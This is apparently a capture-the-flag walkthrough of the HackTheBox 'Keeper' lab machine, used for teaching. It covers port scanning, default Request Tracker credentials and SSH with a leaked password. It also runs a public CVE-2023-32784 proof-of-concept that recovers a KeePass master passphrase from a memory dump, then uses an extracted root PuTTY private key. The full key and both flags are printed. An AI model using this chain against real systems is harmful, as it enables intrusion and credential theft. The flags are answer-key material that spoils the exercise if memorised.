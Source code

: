 ## HackTheBox Keeper

Easy level HackTheBox platform lab machine running Linux OS, containing a standard password, password transmission using an open communication channel and its untimely change, exploiting a vulnerability in Keepass.

## Service Overview

The machine is assigned IP address 10.10.11.227, let's scan the ports with Nmap:

```bash
$ nmap -sV -sC -Pn -p1-65535 -oN 10.10.11.227 10.10.11.227
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Service

On port 80, we are immediately pointed to two domain names.
We need to add keeper.htb and tickets.keeper.htb to /etc/hosts:

```bash
10.10.11.227 keeper.htb tickets.keeper.htb
```

Request Tracker (RT 4.4.4.4+dfsg-2ubuntu1 (Debian)) is running on tickets.keeper.htb.
After trying some password combinations without success, we finally get the ```root:password``` account.

The ticket reveals a problem with Keepass. Let's pay attention to the Danish usernames. In the user section http://tickets.keeper.htb/rt/Admin/Users/ we find the user ```lnorgaard:Welcome2023!```.

```bash
27 	lnorgaard 	Lise Nørgaard 	lnorgaard@keeper.htb 	Enabled
Comments about this user 
New user. Initial password set to Welcome2023!

14 	root 	Enoch Root 	root@localhost 	Enabled
```

## User flag
Use them to access SSH.

```bash
$ ssh lnorgaard@10.10.11.227
Welcome2023!
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
lnorgaard@keeper:~$ ls
KeePassDumpFull.dmp  RT30000.zip  passcodes.kdbx  user.txt
lnorgaard@keeper:~$ cat user.txt
faa16f84c4bd32e64845c9651522850b
lnorgaard@keeper:~$
```

## Privilege escalation

In the user directory /home/lnorgaard we see the file RT30000.zip. In the Windows application crash ticket it was written that the memory dump was removed from the ticket for security reasons and placed in the home directory.

Let's download this file for local research:

```bash
$ scp lnorgaard@10.10.11.227:~/RT30000.zip .
lnorgaard@10.10.11.227's password: Welcome2023!
```

Inside the archive is a file with memory dump and Keepass base:

```bash
$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp

 extracting: passcodes.kdbx

$ file passcodes.kdbx
passcodes.kdbx: Keepass password database 2.x KDBX

$ file KeePassDumpFull.dmp
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```

It looks like we're facing CVE-2023-32784. We can find almost the entire password from the memory dump.

```bash
$ git clone https://github.com/CMEPW/keepass-dump-masterkey
$ cd /opt/keepass-dump-masterkey
$ python3 poc.py /root/KeePassDumpFull.dmp
2023-09-08 17:50:46,382 [.] [main] Opened /root/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

It looks like a passphrase, so we try a google search for med flode, given that the users are Danish.
Apply the lowercase function to the passphrase and get ```rødgrød med fløde```. Use this password to open passcodex.kdbx database.

In the Network category, find the Putty private key:

```bash
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Convert with puttygen (conversions => Export OpenSSH key):

```bash
$ wget https://the.earth.li/~sgtatham/putty/0.76/putty-0.76.tar.gz
$ tar -xvf putty-0.76.tar.gz
$ cd putty-0.76/
$ ./configure
$ make
$ sudo cp puttygen /usr/bin/

$ putty-0.76/puttygen ssh-rsa.ppk -O private-openssh -o id_rsa
```

Let's connect with this key as root and get root flag:

```bash
$ ssh -i id_rsa root@10.10.11.227
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# ls
RT30000.zip  SQL  root.txt
root@keeper:~# cat root.txt
19ad20c7b763f30208fbb19e30eb7634
```